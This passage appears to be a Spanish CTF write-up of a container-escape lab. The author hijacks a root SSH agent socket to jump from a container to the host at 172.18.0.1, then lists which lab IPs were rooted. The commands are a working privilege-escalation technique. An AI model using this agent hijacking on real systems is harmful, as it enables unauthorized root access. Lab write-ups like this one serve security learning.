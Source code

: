 Probamos las credenciales en la máquina (172.20.0.150) ya que es la única que no hemos rooteado. Y somos root

# Container Escape rooted (172.20.0.150, 172.18.0.200)
## OS
```bash
cd /root
ls 
cat root.txt
cd /tmp
ls
rm -r ssh\*
watch -n 1 ps -faux
```

> Vemos sesiones ssh -> probamos a monitorizar a ver si se gestionas sesiones
> Vemos que nos crea una sesión a la máquina 127.18.0.1 por ssh como root -> Podemos hacer un agent hijacking
```bash
cd ssh-\*
ls # agent.896
SSH_AUTH_SOCK=agent.896 ssh root@172.18.0.1 -p 2222
```

# 172.18.0.1
```bash
cd /root
cat root.txt
```

> root.txt

# Information
Este archivo se ha ido creando durante todo el proceso de resolución de la máquina, es una buena práctica cuando nos enfrentamos a contenedores y varias IP, para ir monitorizándo

```bash
172.20.0.1
172.20.0.10 (PWNED) (rooted)
172.20.0.150 (22/tcp) (PWNED) (rooted)
	172.18.0.200 (172.20.0.150)
	127.18.0.1
	127.18.0.2 (22/tcp, 3000/tcp) (PWNED) (rooted)
```
